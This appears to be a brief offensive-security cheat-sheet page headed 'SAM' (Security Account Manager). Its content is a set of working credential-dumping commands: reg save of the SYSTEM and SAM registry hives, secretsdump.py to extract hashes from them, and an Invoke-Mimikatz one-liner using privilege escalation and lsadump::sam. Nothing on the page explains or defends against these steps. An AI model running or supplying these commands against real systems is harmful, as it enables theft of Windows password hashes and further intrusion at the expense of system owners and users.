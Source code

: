 ```yaml
---
description: Security Account Manager
---
```


# SAM




## reg.exe

```
Cmd > reg save hklm\system system.hive
Cmd > reg save hklm\sam sam.hive
$ secretsdump.py -system system.hive -sam sam.hive LOCAL
```




## Mimikatz

```
PS > Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "log out.txt" "lsadump::sam" "exit"'
```
